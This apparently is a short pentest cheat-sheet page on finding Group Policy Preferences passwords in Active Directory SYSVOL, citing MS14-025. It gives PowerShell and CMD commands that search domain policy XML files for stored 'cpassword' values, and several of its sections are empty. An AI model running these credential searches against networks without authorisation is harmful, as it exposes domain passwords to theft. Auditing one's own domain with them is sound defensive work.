 ## [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

## [AD Hunting Passwords In SYSVOL](https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md)

## [Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)

## [Microsoft Security Bulletin MS14-025 - Important](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025)

> The vulnerability could allow elevation of privilege if Active Directory Group Policy preferences are used to distribute passwords across the domain - a practice that could allow an attacker to retrieve and decrypt the password stored with Group Policy preferences.

### Extensions
```
*.xml , *.vbs , *.bat etc.
```

### TL;DR
```

```

### PowerShell
```
dir $env:logonserver\sysvol

dir \\$env:USERDNSDOMAIN\sysvol
findstr /S /I cpassword \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
```

### CMD
```
dir %logonserver%\sysvol

dir \\%USERDNSDOMAIN%\sysvol
findstr /S /I cpassword \\%USERDNSDOMAIN%\sysvol\%USERDNSDOMAIN%\policies\*.xml
```

### 
```

```

### Examples
```

```


### [%userdnsdomain% vs %logonserver%](https://www.reddit.com/r/sysadmin/comments/e01wot/userdnsdomain_and_logonserver_environment/?rdt=46812)
```
\\%logonserver%\sysvol\%userdnsdomain%
```

### 
```

```

### 
```

```

### 
```

```